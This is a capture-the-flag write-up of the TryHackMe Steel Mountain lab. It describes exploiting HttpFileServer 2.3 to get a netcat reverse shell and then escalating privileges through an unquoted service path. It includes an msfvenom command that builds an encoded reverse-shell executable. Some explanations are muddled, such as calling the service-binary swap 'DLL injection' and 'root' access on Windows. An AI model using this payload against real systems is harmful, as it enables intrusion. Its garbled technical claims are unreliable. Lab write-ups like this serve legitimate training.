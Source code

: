 ```yaml
---
title: Steel Mountains
author: X310t0x01
date: 2024-01-13 11:33:00 +0800
categories: [TryHackMe, PrivEsc, Windows, Mac OS]
tags: [TryHackMe]
pin: false
math: true
mermaid: true
---
```


# TryHackMe: Steel Mountain WriteUp (MAC OS)

The TryHackMe Steel Mountain challenge is a hands-on cybersecurity task, simulating a real-world penetration test against a Windows system. Participants engage in stages like reconnaissance, exploitation, and privilege escalation using tools like Nmap, Metasploit, and PowerShell scripts. The challenge focuses on exploiting vulnerabilities such as unquoted service paths and misconfigurations in HTTP File Server.

![Mr.Robot Wallpaer](https://mrwallpaper.com/images/hd/mr-robot-elliot-glitch-art-background-gb7xxlkeskgsf6be.jpg "MR.Robot Wallpaper")

# Port Enumeration Process
The port scanning process generates output that provides information about several open ports on a target system, including possible software versions associated with each port. During this scanning operation, I prefer to meticulously review the results, selecting those that I believe will be most beneficial for further investigation. Typically, I prioritize port 80, which is commonly used for HTTP, and its alternate, port 8080, by actively exploring their accessibility and response.

![PortScan](/Images/PortScan.png "PortScan")


However, for a comprehensive assessment, it's essential to extend the examination beyond HTTP-related ports. One critical aspect is to verify the status of SMB (Server Message Block) on port 445, which can yield a wealth of information if it's not adequately secured. Inadequate protection can potentially expose sensitive data and system vulnerabilities, making thorough scrutiny imperative for effective security assessment and potential mitigation.

![URLVuln](/Images/8080.png "URLVuln")

This situation has piqued our interest. The application identified is HttpFileServer 2.3. Initial login attempts with common combinations like 'admin:admin' and 'admin:password' have proven unsuccessful. However, a Google search reveals a known exploit for this version, utilizing a local HTTP server to deliver and execute netcat on the target system. The discovery of this exploit offers a new perspective. While conventional access attempts haven't worked, this exploit hints at a potential vulnerability in HttpFileServer 2.3 that we can explore. Though we haven't yet achieved access through regular means, the existence of this exploit presents an intriguing alternative. We should consider a deeper dive into its mechanics, assess its viability, and see if it can bypass the current access limitations. This revelation certainly adds an interesting dimension to our investigation

# Initial Breach Point in Security

![Script](/Images/Script.png "Script")

As per the exploit's instructions, we must host Netcat using an HTTP server and set up a Netcat listener for the reverse shell. I duplicated Netcat, placing it in a designated Desktop directory, while also configuring a Netcat listener in a separate terminal to capture the incoming reverse shell. To deliver the duplicated Netcat utility to the target system, I employed a Python Simple HTTP server, creating a discreet channel for secure transmission. This approach ensures controlled deployment, minimizing the risk of detection. Following these precise steps aligns with the exploit's methodology, enhancing our control and reducing the likelihood of detection, thereby increasing our chances of success.

![ncStep](/Images/ncStep.png "ncStep")

Based on the provided image, it's evident that during the initial execution of the exploit, we observed a GET request for downloading the Netcat executable. In case this step encounters issues, ensure that the HTTP server is operated from the directory where Netcat is located.

![UserLevel](/Images/UserLevel.png "UserLevel")

Executing the exploit using identical syntax results in obtaining a user-level shell attributed to the user 'bill.' This consistent outcome indicates the reliability of the exploit in providing access under these conditions

# Host Discovery

In my capacity as 'bill,' I encountered an obstacle while attempting to access the Administrators directory, resulting in an 'Access denied' message. Despite this setback, my investigation led me to discover the user flag within bill's user profile directories.

Following the recommended approach outlined in the walkthrough, I opted to leverage PowerShell to retrieve a Windows Privilege Escalation enumeration script known as 'winPEAS.' This script is instrumental in identifying potential misconfigurations within a specific service. To acquire 'winPEAS,' I employed a PowerShell one-liner, which also facilitated the retrieval of 'accesschk.exe.' This dual approach was employed to scrutinize the 'winPEAS' output for potential vulnerabilities. During my evaluation, I applied these tools to bill's Desktop directory, which exhibited the desired functionality as it was writable, allowing me to proceed with the enumeration process effectively.

![GetPeas](/Images/GetPeas.png "GetPeas")

Using 'winPEAS -h' reveals additional paths to pinpoint specific misconfigurations. Given the vulnerability identified in an unquoted service path in the walkthrough, I opted to focus on the 'servicesinfo' option.

![WinPeasC](/Images/WinPeasC.png "WinPeasC")

Multiple unquoted path services exist, but permission limitations may hinder editing or writing. To address this, accesschk.exe is a valuable resource. The results indicate that bill has control (pause, start, stop) over AdvancedSystemCareService9. This is crucial because even if we find an exploitable unquoted service path, the service's permissions can limit its usefulness. If the user lacks start/stop permissions, privilege escalation may be ineffective.

The AdvancedSystemCareService9 checks the unquoted path 'C:\Program Files (x86)\IObit\Advanced SystemCare' for executables. Since the path lacks quotes, Windows may misinterpret it as 'C:\Program.exe' or 'C:\Program Files (x86)\IObit\ASCService.exe.

To exploit this, we can create an executable named 'ASCService.exe' using 'msfvenom' and place it in 'C:\Program Files (x86)\IObit' since bill has write access there. Here's the command for that:

```powershell
msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<port> -f exe -e x86/shikata_ga_nai -o ASCService.exe
```
We've got all the pieces in place and have identified a potential Unquoted Service Path vulnerability. User 'bill' has control over the service, and 'bill' also has the ability to write to the binary path. Our 'Advanced.exe' reverse shell is now in the location where Windows will look when the service starts, and we've confirmed that the service runs with SYSTEM privileges.

![copyS](/Images/copyS.png "copyS")


After successfully delivering the payload to the target machine, our next objective is to execute a DLL injection on the system. In order to achieve this, we will replace the original service for the AdvanceSystemCareService9 with the one that has the service of ASCService.exe. This will enable us to carry out the necessary actions to complete our task.

![stop](/Images/stop.png "stop")


Following the completion of a specific task, I proceeded to stop the service that was running on the target machine. This provided me with an opportunity to restart the service, which enabled me to perform a DLL injection. By executing this technique, I was able to insert a custom DLL into the memory space of the target process and execute the code that I needed to accomplish my objective.

![start](/Images/start.png "start")

When I initially started the service, the payload we were using contained a DLL injection. This injection granted me root access to the machine on which I was working. As a result, I was able to obtain the root flag for the Steel Mountain TryHackMe box. It was a successful attempt that allowed me to gain control over the machine.

![root](/Images/root.png "root")


